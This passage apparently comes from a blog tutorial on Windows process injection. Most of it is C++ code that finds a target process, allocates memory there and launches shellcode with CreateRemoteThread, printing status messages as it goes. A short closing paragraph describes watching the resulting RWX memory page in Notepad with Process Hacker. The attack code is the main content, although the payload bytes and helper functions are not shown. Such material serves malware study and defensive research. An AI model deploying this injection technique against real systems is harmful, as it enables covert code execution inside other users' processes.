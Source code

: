     DWORD dwProcessID{ NULL }, dwThreadID;
    HANDLE hProcess{ nullptr }, hThread{ nullptr };
    LPVOID lpBuffer{ nullptr };
    SIZE_T cbSize{ sizeof(payload) };
    
    dwProcessID = GetRemoteProcessID(lpProcessName);
    if(MemoryAllocation(dwProcessID, &lpBuffer, &hProcess, cbSize))
    {
        std::wcout << "[+] Open remote process: " << lpProcessName << " PID: " << dwProcessID << std::endl;
        std::cout << "[+] Process handle" << " 0x" << hProcess << std::endl;
        std::cout << "[+] Allocating memory in target process: 0x" << lpBuffer << std::endl;

        // Obtain a handle for a remote process.
        if(hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)lpBuffer, nullptr, 0, &dwThreadID))
        {
            std::cout << "[+] Create remote thread in target process: 0x" << hThread << " PID: " << dwThreadID << std::endl;
            WaitForSingleObject(hThread, 500); // Execute shellcode
            CloseHandle(hThread);

            // Clean up
            VirtualFreeEx(hProcess, lpBuffer, 0, MEM_RELEASE);
            std::wcout << "[+] Released remote memory in target process: " << lpProcessName << std::endl;
        }
        else
        {
            std::cerr << "[-] Failed to create remote thread: CreateRemotetHread() " << GetLastError();
            if(lpBuffer) VirtualFreeEx(hProcess, lpBuffer, 0, MEM_RELEASE);
                CloseHandle(hProcess);

            return 1;
        }

    }
    else
    {
        std::wcerr << "[-] Oops! failed to allocate remote memory in target process: " << lpProcessName << '\t' << hProcess << std::endl;
        if(lpBuffer) VirtualFreeEx(hProcess, lpBuffer, 0, MEM_RELEASE);
            CloseHandle(hProcess);

        return 1;
    }
    
    return 0;
}
{% endhighlight %}

By comparing the program and setting a breakpoint after writing the arbitrary code to the virtual process's address space, specifically in our case, Notepad, we can observe in Process Hacker that the memory page containing the shellcode bytes is assigned RWX permissions.
